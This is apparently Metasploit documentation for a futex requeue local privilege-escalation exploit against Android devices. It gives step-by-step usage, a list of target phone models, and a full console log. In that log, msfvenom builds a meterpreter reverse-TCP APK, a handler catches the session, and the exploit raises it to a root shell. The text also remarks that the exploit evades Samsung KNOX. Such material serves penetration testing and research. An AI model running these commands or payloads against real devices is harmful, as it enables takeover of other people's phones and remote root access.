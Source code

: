 ## Vulnerable Application

This module exploits a Linux Kernel vulnerability, which is also available in the Android kernel, in a Linux subsystem call of `futex`.
It does not trip (set off) Samsung NOX as of the time of writing.

Failed exploitation attempts may reboot the device.

## Verification Steps

  1. Start msfconsole
  2. Get a shell on a vulnerable android device
  3. Do: ```use exploit/android/local/futex_requeue```
  4. Select an appropriate target
  5. Do: ```set lhost [IP]```
  6. Do: ```run```
  7. You should get a root shell.

## Targets

  **0   Automatic Targeting**

  Attempt to automatically determine the target

  **1   Default**

  Nexus 4, 5, 7, etc

  **2   New Samsung**

  Samsung S3, S4, S5, etc

  **3   Old Samsung**

  Samsung Note 2, etc

  **4   Samsung Grand**

  Samsung Grand, etc

## Scenarios

### Samsung Galaxy S3 Verizon (SCH-I535 w/ android 4.4.2, kernel 3.4.0)

  The following was used to generate a meterpreter Android application, and it was installed to the device.

  ```
  msfvenom -p android/meterpreter_reverse_tcp LHOST=111.111.1.111 LPORT=9999 -o /var/www/html/android.apk
  ```

  ```
[*] Processing android.128.rb for ERB directives.
resource (android.128.rb)> use exploit/multi/handler
resource (android.128.rb)> set payload android/meterpreter_reverse_tcp
payload => android/meterpreter_reverse_tcp
resource (android.128.rb)> set lport 9999
lport => 9999
resource (android.128.rb)> set lhost 111.111.1.111
lhost => 111.111.1.111
resource (android.128.rb)> run
[*] Started reverse TCP handler on 111.111.1.111:9999 
[*] Meterpreter session 1 opened (111.111.1.111:9999 -> 222.222.2.222:56975) at 2019-10-22 20:56:34 -0400
WARNING: Local file /root/metasploit-framework/data/meterpreter/ext_server_stdapi.jar is being used
WARNING: Local files may be incompatible with the Metasploit Framework

meterpreter > sysinfo
Computer    : localhost
OS          : Android 4.4.2 - Linux 3.4.0-1542239 (armv7l)
Meterpreter : dalvik/android
meterpreter > getuid
Server username: u0_a191
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/android/local/futex_requeue 
msf exploit(android/local/futex_requeue) > set session 1
session => 1
msf exploit(android/local/futex_requeue) > set verbose true
verbose => true
msf exploit(android/local/futex_requeue) > set lhost 111.111.1.111
lhost => 111.111.1.111
msf exploit(android/local/futex_requeue) > check

[+] Android version 4.4.2 appears to be vulnerable
[*] The target appears to be vulnerable.
msf exploit(android/local/futex_requeue) > run

[*] Started reverse TCP handler on 111.111.1.111:4444 
[+] Android version 4.4.2 appears to be vulnerable
[*] Found device: d2vzw
[*] Fingerprint: Verizon/d2vzw/d2vzw:4.4.2/KOT49H/I535VRUDNE1:user/release-keys
[*] Using target: New Samsung
[*] Loading exploit library /data/data/com.metasploit.stage/files/thelr
[*] Loaded library /data/data/com.metasploit.stage/files/thelr, deleting
[*] Waiting 300 seconds for payload
[*] Transmitting intermediate stager...(136 bytes)
[*] Sending stage (904600 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:37502) at 2019-10-22 20:57:45 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
  ```
